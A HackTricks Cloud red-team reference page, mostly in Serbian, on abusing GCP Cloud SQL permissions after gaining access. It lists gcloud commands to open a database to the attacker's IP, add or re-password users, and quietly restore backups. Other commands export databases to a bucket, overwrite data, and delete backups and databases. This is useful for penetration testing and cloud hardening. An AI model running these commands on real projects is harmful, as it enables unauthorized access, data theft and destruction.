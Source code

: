 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Za više informacija o Cloud SQL, proverite:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Da biste se povezali na baze podataka, **samo vam je potreban pristup portu baze podataka** i da znate **korisničko ime** i **lozinku**, nema zahteva za IAM. Dakle, lak način da dobijete pristup, pod pretpostavkom da baza podataka ima javnu IP adresu, je da ažurirate dozvoljene mreže i **dozvolite svoju IP adresu da joj pristupi**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Takođe je moguće koristiti **`--no-backup`** da **ometate rezervne kopije** baze podataka.

S obzirom na to da su ovo zahtevi, nisam potpuno siguran čemu služe dozvole **`cloudsql.instances.connect`** i **`cloudsql.instances.login`**. Ako znate, pošaljite PR!

### `cloudsql.users.list`

Dobijte **spisak svih korisnika** baze podataka:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Ova dozvola omogućava **kreiranje novog korisnika unutar** baze podataka:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Ova dozvola omogućava **ažuriranje korisnika unutar** baze podataka. Na primer, možete promeniti njegovu lozinku:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Bekapovi mogu sadržati **stare osetljive informacije**, pa je zanimljivo proveriti ih.\
**Vratite bekap** unutar baze podataka:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Da bi se to uradilo na diskretniji način, preporučuje se da se kreira nova SQL instanca i da se podaci povuku tamo umesto u trenutno aktivnim bazama podataka.

### `cloudsql.backupRuns.delete`

Ova dozvola omogućava brisanje rezervnih kopija:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Izvezite bazu podataka** u Cloud Storage Bucket kako biste mogli da joj pristupite odatle:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Uvezi bazu podataka** (prepiši) iz Cloud Storage Bucket-a:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Obriši bazu podataka iz db instance:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podrška HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
